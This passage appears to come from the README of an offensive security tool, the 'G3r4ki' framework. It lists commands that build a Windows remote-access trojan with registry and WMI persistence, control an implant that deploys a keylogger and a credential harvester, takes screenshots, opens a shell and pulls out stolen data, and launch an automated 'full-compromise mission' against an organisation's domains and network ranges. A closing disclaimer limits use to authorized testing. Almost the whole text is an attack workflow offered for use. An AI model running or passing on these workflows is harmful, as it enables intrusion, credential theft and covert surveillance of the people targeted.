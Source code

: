 ### Deploying a RAT and Collecting Data

```bash
# Generate a RAT
python g3r4ki.py offensive rat generate --platform windows --comms https --persistence registry,wmi --output advanced_rat.exe

# After deploying the RAT manually to the target system:
python g3r4ki.py offensive rat list
python g3r4ki.py offensive rat interact --id RAT123

# In the RAT shell:
RAT123> deploy keylogger
RAT123> deploy cred-harvester
RAT123> screenshot
RAT123> sysinfo
RAT123> shell whoami

# Retrieve collected data:
python g3r4ki.py offensive rat retrieve --id RAT123 --type all --output /path/to/data
```

### Automated Mission Execution

```bash
# Start a full compromise mission
python g3r4ki.py offensive mission start --type full-compromise --target-organization "Example Corp" --scope "*.example.com,192.168.0.0/16" --output-dir /path/to/mission

# Monitor mission progress
python g3r4ki.py offensive mission status --id MISSION1 --watch

# Generate a comprehensive report
python g3r4ki.py offensive mission report --id MISSION1 --format pdf,docx --output /path/to/reports
```

## Disclaimer

The G3r4ki Offensive Framework is designed for educational purposes and authorized security testing only. Users are responsible for complying with all applicable laws and regulations when using these tools. The developers assume no liability for misuse or damage caused by these tools.